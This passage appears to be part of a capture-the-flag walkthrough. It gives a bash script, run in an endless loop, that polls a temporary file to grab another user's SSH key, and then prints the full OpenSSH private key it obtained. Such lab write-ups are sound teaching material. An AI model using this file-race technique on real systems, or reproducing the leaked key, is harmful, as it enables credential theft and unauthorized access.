 ```
#!/bin/bash

FILE=/tmp/tmp*/key  

if [ -f $FILE ]; then
    sleep 1
    cat /tmp/tmp*/key
    sleep 5
fi
```
Sleep commands are there so that it doesn't read the file multiple time and fill your screen, and after read you have 5 secons to exit the script easily.
Let's run this script in a while loop. `while :; do bash script.sh;done`. Few seconds later we get jack's key

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
0jZ2DP0AFwApsAAAAIcm9vdEBsYWIBAgM=
-----END OPENSSH PRIVATE KEY-----
``` 
